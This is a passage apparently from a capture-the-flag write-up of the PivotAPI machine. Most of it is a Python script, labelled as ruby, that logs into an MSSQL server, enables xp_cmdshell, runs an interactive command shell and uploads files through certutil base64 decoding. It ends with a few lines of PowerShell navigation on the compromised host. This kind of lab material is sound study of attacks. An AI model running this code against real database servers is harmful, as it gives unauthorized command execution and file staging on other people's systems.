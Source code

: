 ```ruby

    cmd = 'certutil -decode "' + remote_path + '.b64" "' + remote_path + '"'
    mssql.execute_query("EXEC xp_cmdshell 'cd "+stored_cwd+" & "+cmd+" & echo %username%^|%COMPUTERNAME% & cd'")
    process_result(mssql)
    cmd = 'certutil -hashfile "' + remote_path + '" MD5'
    mssql.execute_query("EXEC xp_cmdshell 'cd "+stored_cwd+" & "+cmd+" & echo %username%^|%COMPUTERNAME% & cd'")
    if md5sum in [row[list(row)[-1]].strip() for row in mssql if row[list(row)[-1]]]:
        print("MD5 hashes match: " + md5sum)
    else:
        print("ERROR! MD5 hashes do NOT match!")


def shell():
    mssql = None
    stored_cwd = None
    try:
        mssql = _mssql.connect(server=MSSQL_SERVER, user=MSSQL_USERNAME, password=MSSQL_PASSWORD)
        print("Successful login: "+MSSQL_USERNAME+"@"+MSSQL_SERVER)

        print("Trying to enable xp_cmdshell ...")
        mssql.execute_query("EXEC sp_configure 'show advanced options',1;RECONFIGURE;exec SP_CONFIGURE 'xp_cmdshell',1;RECONFIGURE")

        cmd = 'echo %username%^|%COMPUTERNAME% & cd'
        mssql.execute_query("EXEC xp_cmdshell '"+cmd+"'")
        (username, computername, cwd) = process_result(mssql)
        stored_cwd = cwd
        
        while True:
            cmd = input("CMD "+username+"@"+computername+" "+cwd+"> ").rstrip("\n").replace("'", "''")
            if not cmd:
                cmd = "call" # Dummy cmd command
            if cmd.lower()[0:4] == "exit":
                mssql.close()
                return
            elif cmd[0:6] == "UPLOAD":
                upload_cmd = shlex.split(cmd, posix=False)
                if len(upload_cmd) < 3:
                    upload(mssql, stored_cwd, upload_cmd[1], stored_cwd+"\\"+upload_cmd[1])
                else:
                    upload(mssql, stored_cwd, upload_cmd[1], upload_cmd[2])
                cmd = "echo *** UPLOAD PROCEDURE FINISHED ***"
            mssql.execute_query("EXEC xp_cmdshell 'cd "+stored_cwd+" & "+cmd+" & echo %username%^|%COMPUTERNAME% & cd'")
            (username, computername, cwd) = process_result(mssql)
            stored_cwd = cwd
            
    except _mssql.MssqlDatabaseException as e:
        if  e.severity <= 16:
            print("MSSQL failed: "+str(e))
        else:
            raise
    finally:
        if mssql:
            mssql.close()


shell()
sys.exit()

```

[pivotAPI]: PS C:\> cd .\Developers\
[pivotAPI]: PS C:\Developers> ls
[pivotAPI]: PS C:\Developers> cd jari
[pivotAPI]: PS C:\Developers\jari> ls